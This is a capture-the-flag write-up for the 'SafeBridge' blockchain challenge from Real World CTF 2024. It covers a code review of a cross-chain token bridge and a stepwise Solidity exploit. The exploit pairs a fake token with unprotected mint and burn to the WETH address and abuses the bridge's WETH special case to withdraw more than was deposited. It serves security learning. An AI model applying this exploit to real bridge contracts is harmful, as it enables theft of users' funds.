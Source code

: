 # [realworldctf-2024](https://realworldctf.com/)

## SafeBridge

**Category: blockchain** 

## Description

I've crafted what I believed to be an ultra-safe token bridge. Don't believe it?

## Structure

The bridge comprises three components:

- Decentralized contracts on Chain 1
- Decentralized contracts on Chain 2
- Central relayer Python service

From Chain 1, a token bridge can be initiated to any token on Chain 2, provided that the token on Chain 2 has stored the correct address of the corresponding token on Chain 1.
The initial deposit made from the challenge utilizes a special case with `address(0)` as the token on Chain 1.

### After the initial code review, three potential vulnerabilities were identified:

1. The `sendMessage` function is public.
  
```c++
  /**
    * Sends a cross domain message to the target messenger.
    * @param _target Target contract address.
    * @param _message Message to send to the target.
    */
  function sendMessage(address _target, bytes memory _message) public {
      bytes memory xDomainCalldata = encodeXDomainCalldata(_target, msg.sender, _message, messageNonce);

      sentMessages[keccak256(xDomainCalldata)] = true;

      emit SentMessage(_target, msg.sender, _message, messageNonce);
      messageNonce += 1;
  }
```

2. There is a potential reentrancy issue in some parts of the code.

3. A peculiar special case arises if the token is WETH.

```c++
  if (_l1Token == weth) {
      message = abi.encodeWithSelector(
          IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
      );
  } else {
      message =
          abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
  }
```

Upon closer inspection and thorough testing, no issues were found for either the `sendMessage` function, which appears to be correctly protected from within the bridge contract, or the reentrancy concern.

## Solution

1. Obtain the address of WETH on Chain 1.

```c++
  c = Challenge(0x63149A7007961cAf310d707923ce36f621F8eb55);
  weth = WETH(payable(c.WETH()));
  console.logAddress(address(weth));
```

2. Create a new token on Chain 2 with this matching WETH address. Disable security checks on the mint and burn functions for this token.

```c++
  function createToken(address l1Pair) public {
      vm.startBroadcast();
      address newToken = address(new L2StandardERC20(l1Pair, "kek", "kek"));
      vm.stopBroadcast();
      console.logAddress(newToken);
  }
```

```c++
  function mint(address _to, uint256 _amount) public virtual {
      _mint(_to, _amount);
      emit Mint(_to, _amount);
  }

  function burn(address _from, uint256 _amount) public virtual {
      _burn(_from, _amount);
      emit Burn(_from, _amount);
  }
```

3. Deposit 2 ETH on Chain 1 into the pair WETH - new token.
   
   This action creates:
   - A mapping in [WETH][new token] = 2
   - Send information to Chain 2 with address(0) - original WETH matching token

```c++
  function deposit(address l2token) public {
      vm.startBroadcast();
      weth.deposit{value: 2 ether}();
      weth.approve(address(l1), 2 ether);
      l1.depositERC20(address(weth), l2token, 2 ether);
      vm.stopBroadcast();
  }
```

4. Withdraw the original WETH matching token on Chain 2 since it was received from the previous deposit.

What has changed now is that on Chain 1, the mapping [WETH][original token] = 0, and [WETH][new token] = 2.

```c++
  function withdrawDefault() public {
      vm.startBroadcast();
      l2.withdraw(address(0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000), 2 ether);
      vm.stopBroadcast();
  }
```

5. Mint yourself 2 ETH of the new token on Chain 2.
6. Withdraw the new token.

```c++
  function withdrawFake(address l2token) public {
      vm.startBroadcast();
      L2StandardERC20 asd = L2StandardERC20(l2token);
      asd.mint(address(this), 2 ether);
      asd.mint(msg.sender, 2 ether);
      l2.withdraw(address(l2token), 2 ether);
      vm.stopBroadcast();
  }
```
